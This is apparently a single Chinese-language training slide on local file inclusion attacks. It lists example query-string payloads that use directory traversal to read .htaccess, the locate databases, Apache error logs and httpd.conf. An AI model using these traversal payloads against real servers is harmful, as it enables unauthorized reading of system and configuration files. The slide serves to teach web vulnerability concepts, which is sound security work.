

# 文件包含漏洞攻击方式
包含同目录下的文件
?file=.htaccess
目录遍历
?file=../../../../../../../../../var/lib/locate.db
?file=../../../../../../../../../var/lib/mlocate/mlocate.db
(linux 中这两个文件储存着所有文件的路径，需要 root 权限)
包含错误日志
?file=../../../../../../../../../var/log/apache/error.log
获取 web 目录或者其他配置文件
?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf
6